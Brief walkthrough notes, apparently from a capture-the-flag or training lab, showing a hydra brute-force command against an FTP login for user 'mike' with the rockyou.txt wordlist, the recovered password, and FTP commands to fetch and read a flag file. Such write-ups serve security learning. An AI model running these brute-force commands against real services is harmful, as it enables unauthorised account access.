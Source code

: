 1)
- hydra -t 4 -l mike -P rockyou.txt -f -vV IP ftp
- this payload is a little different to the one given on the page, i have added the -f so that it stops when it is successful 
- password
2) 
- ftp IP
- username: mike
- password: password
3) 
- get ftp.txt ./ftp.txt
- quit
- cat ftp.txt